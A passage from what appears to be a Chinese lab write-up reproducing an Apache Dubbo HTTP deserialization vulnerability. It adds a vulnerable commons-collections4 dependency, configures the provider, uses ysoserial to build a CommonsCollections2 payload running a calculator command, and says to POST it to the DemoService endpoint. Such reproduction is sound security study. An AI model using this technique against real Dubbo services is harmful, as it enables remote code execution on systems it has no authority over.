 ![image-20211122171933883](img/Dubbo反序列化漏洞.assets/image-20211122171933883.png)

之后增加存在Gadget的类

```xml
        <!-- https://mvnrepository.com/artifact/org.apache.commons/commons-collections4 -->
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>4.0</version>
        </dependency>
```

可能会存在端口占用问题，可以改下对应对口`http-provider.xml`

```
<dubbo:protocol name="http" id="http" port="${servlet.port:8888}" server="${servlet.container:tomcat}"/>
```

然后启动Zookeeper，启动服务，这样就代表完成了一次RPC

![image-20211122172235662](img/Dubbo反序列化漏洞.assets/image-20211122172235662.png)

之后漏洞利用，需要向/org.apache.dubbo.samples.http.api.DemoService路径POST传入我们添加的Gadget即可

使用ysoserial生成利用代码

```bash
java -jar ysoserial.jar CommonsCollections2 "open -a Calculator" > /tmp/payload.ser
```

发送PayLoad执行命令
